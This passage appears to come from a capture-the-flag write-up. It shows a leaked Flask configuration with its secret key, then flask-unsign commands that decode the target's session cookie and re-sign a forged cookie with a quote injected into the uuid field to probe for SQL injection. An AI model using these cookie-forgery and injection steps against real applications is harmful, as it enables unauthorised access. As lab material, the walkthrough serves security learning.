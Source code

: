 ```js
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'RATELIMIT_ENABLED': True, 'RATELIMIT_DEFAULTS_PER_METHOD': False, 'RATELIMIT_SWALLOW_ERRORS': False, 'RATELIMIT_HEADERS_ENABLED': False, 'RATELIMIT_STORAGE_URL': 'memory://', 'RATELIMIT_STRATEGY': 'fixed-window', 'RATELIMIT_HEADER_RESET': 'X-RateLimit-Reset', 'RATELIMIT_HEADER_REMAINING': 'X-RateLimit-Remaining', 'RATELIMIT_HEADER_LIMIT': 'X-RateLimit-Limit', 'RATELIMIT_HEADER_RETRY_AFTER': 'Retry-After', 'UPLOAD_FOLDER': 'static/uploads'}>
```

### SQLI in cookie

Decoding the current cookie and looking at it's structure, it looks like it might be worth checking for a possbible sqli vulnerability.

[![session_cookie](/img/spider/session_cookie.png)](/img/spider/session_cookie.png)

```js
$ flask-unsign -c eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6IjEyOWY2MGVhLTMwY2YtNDA2NS1hZmI5LTZiZTQ1YWQzOGI3MyJ9.YLOOqw.muC8GdLqORSbJhggIGtexj3no5s -d -S Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942
{'cart_items': [], 'uuid': 'd9b910d5-3180-4274-a3e0-6d82e9fef789'}
```

In a first test we add a single quote to `uuid`, encode the cookie again and replace it with our current one in the browser.

```js
$ flask-unsign --secret Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942 -s -c "{'cart_items': [], 'uuid': \"d9b910d5-3180-4274-a3e0-6d82e9fef789'\"}"
eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6ImQ5YjkxMGQ1LTMxODAtNDI3NC1hM2UwLTZkODJlOWZlZjc4OScifQ.YLOAgw.9bWstBhEiQY7QS4sKCaF3c93bTE
```

This gives an error in the application which is a good sign for us. If we are able to fix the query now with a comment, SQLI is more than likely and we can try to exploit it.
